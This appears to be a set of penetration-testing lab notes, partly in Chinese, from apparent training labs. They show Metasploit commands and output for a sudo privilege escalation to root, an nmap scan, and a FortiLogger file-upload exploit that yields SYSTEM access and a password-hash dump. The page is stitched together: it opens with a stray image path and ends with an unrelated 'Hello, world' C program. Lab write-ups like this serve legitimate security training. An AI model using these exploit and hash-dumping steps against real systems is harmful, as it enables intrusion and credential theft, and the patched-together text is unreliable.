 >```
>sudo -V
>Sudo version 1.8.31
>Sudoers policy plugin version 1.8.31
>Sudoers file grammar version 46
>Sudoers I/O plugin version 1.8.31
>```
>然後用session(`Ctrl+Z`)送到背景之後用`exploit(linux/local/sudo_baron_samedit)` 來執行POC
>最後會看到session這邊
>```
>Id  Name  Type                   Information               Connection
> --  ----  ----                   -----------               ----------
 >1         meterpreter x86/linux  www-data @ 10.129.38.184  10.10.14.18:4444 -> 10.129.38.184:36310 (10.129.38.184)
 >2         meterpreter x64/linux  root @ 10.129.38.184      10.10.14.18:4444 -> 10.129.38.184:36646 (10.129.38.184)
>```

>Meterpreter

>[!note]+ LAB04
>1. nmap
>```
>$ sudo nmap -sV 10.129.203.65
>Not shown: 995 closed tcp ports (reset)
>PORT     STATE SERVICE       VERSION
>135/tcp  open  msrpc         Microsoft Windows RPC
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
>445/tcp  open  microsoft-ds?
>3389/tcp open  ms-wbt-server Microsoft Terminal Services
>5000/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
>```
>
>2. seek 5000 -> FortiLogger login page
>3. search metaspolit
>```
>msf6 > search fortilogger
>Matching Modules
>================
 >0  exploit/windows/http/fortilogger_arbitrary_fileupload  2021-02-26       normal  Yes    >FortiLogger Arbitrary File Upload Exploit
 >```
 >`$ use 0`
 >4. set Lhost/Rhost and run -> use shell
 >5. get username -> `whoami=nt authority\system`
 >6. get `htb-student` user hash -> `back to meterpreter` -> `hashdump` -> get it 
 
 ```c
#include <stdio.h>

int main() {
    printf("Hello, world!\n");
    return 0;
}
```
